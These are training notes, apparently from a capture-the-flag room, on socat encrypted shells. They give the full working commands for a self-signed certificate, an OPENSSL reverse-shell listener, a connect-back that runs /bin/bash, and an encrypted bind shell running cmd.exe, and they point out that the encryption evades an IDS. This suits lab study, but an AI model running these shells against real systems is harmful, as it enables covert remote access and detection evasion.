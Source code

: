 # Socat Encrypted Shells

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.  

We covered how to create basic shells in the previous task, so that syntax will not be covered again here. Suffice to say that any time `TCP` was used as part of a command, this should be replaced with `OPENSSL` when working with encrypted shells. We'll cover a few examples at the end of the task, but first let's talk about certificates.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`  
  
This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.  

We then need to merge the two created files into a single `.pem` file:

`cat shell.key shell.crt > shell.pem`  

Now, when we set up our reverse shell listener, we use:

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`  

This sets up an OPENSSL listener using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate _must_ be used on whichever device is listening.  

To connect back, we would use:

`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`  

The same technique would apply for a bind shell:

Target: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`  

Attacker: `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`  

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:

![](./img/Pasted%20image%2020230904123006.png)

This technique will also work with the special, Linux-only TTY shell covered in the previous task -- figuring out the syntax for this will be the challenge for this task. Feel free to use the Linux Practice box (deployable at the end of the room) to experiment if you're struggling to obtain the answer.

# Common Shell Payloads

